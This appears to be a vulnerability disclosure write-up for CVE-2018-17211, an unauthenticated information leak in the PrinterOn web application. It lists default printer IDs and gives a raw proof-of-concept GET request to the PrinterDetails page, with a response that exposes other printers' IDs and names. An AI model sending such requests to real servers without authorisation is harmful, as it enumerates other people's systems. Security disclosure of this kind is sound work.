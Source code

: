 # CVE-2018-17211-Unauthenticated Information Disclosure-PrinterOn

The PrinterOn web application, 4.1.4 and lower, is vulnerable to an Information Disclosure vulnerability due to the overly permissive read access on the "PrinterDetails" page.
This behaviour is triggered by giving a valid "printerId", exposing the other existing printers.

##### Example of Default Printer IDs

- 900005228231
- 900784151735
- 900739427876

##### REQUEST:

```
GET /cps/PrinterDetails?printerId=900005228231 HTTP/1.1
Host: YY.YY.YY.YY
```

##### RESPONSE:

```
HTTP/1.1 200 
<--SNIP-->
Server: PrinterOn
Content-Length: 12625

<--SNIP-->

<div class="col-xs-6">
                        <select class="form-control" name="printerId" size="1"
                                onChange="document.ShowPrinterDetailsForm.submit()" style="vertical-align: top;">
                            
                                <option value="900005228231"  selected >
                                        Auto-generated Printer 1
                                </option>
                            
                                <option value="900784151735" >
                                        Auto-generated Printer 2
                                </option>
                            
                                <option value="900739427876" >
                                        TestPrint
                                </option>
                            
                        </select>
                    </div>

<--SNIP--> 
````

<img src='Info_Disclosure_Result.png'>
